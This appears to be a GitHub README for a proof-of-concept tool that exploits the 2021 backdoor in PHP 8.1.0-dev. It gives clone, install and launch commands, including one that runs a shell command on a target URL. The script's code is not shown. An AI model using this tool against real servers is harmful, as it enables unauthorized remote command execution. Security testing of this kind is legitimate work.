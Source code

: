 # Python based backdoor exploit script for PHP/8.1.0-dev

## Description:
>On the 28th of March 2021 a backdoor was placed within PHP version 8.1.0-dev.
>[Read More Here](https://arstechnica.com/gadgets/2021/03/>hackers-backdoor-php-source-code-after-breaching-internal-git-server/)<br>
>This script will let you easily connect to this backdoor and execute commands on the machine.


## Installation steps:

Cloning the repo:
```
git clone https://github.com/0xP4UL/PHP-8.1.0-dev-Backdoor-POC.git
```

Installing requirements:
```
cd PHP-8.1.0-dev-Backdoor-POC; pip3 install -r requirements.txt
```

## Launching the script:

Launching the script with the required arguments

```
python3 php8_1_0-dev-poc.py -url https://example.com/ -cmd 'uname -a'
```

![Script running](photo.PNG)
